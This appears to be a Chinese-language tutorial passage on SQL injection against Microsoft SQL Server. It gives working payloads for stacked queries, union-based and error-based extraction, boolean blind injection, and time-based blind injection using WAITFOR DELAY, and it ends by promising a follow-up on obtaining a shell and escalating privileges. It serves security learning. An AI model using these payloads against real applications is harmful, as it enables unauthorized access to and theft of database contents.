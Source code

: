 ```mssql
select * from admin where id =1;declare @a varchar(2000) set @a='select convert(int,user)' exec(@a);
```

`declare`定义变量 `set`赋值`exec`执行

# 联合查询注入

mssql不用数字占位，因为可能会发生隐式转换，我们用null来占位

```mssql
SELECT * from users where id=1 union select null,null,DB_NAME();
```

你也可以这样来联合报错

```mssql
SELECT * from users where id=1 union select null,null, (select CAST(db_name() as int))
```

# 布尔盲注

```mssql
SELECT * from users where id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1))=109
```

布尔盲注没有mssql那么多姿势，大同小异截取字符串比较

# 时间盲注

```mssql
SELECT * from users where id=1;if (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'
```

`waitfor delay '0:0:5'`是mssql的延时语法

同样可以用字符串截取来延时注入

```mssql
select * from users where id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'
```

---

下一篇写拿shell和提权的。再次感谢404师傅。
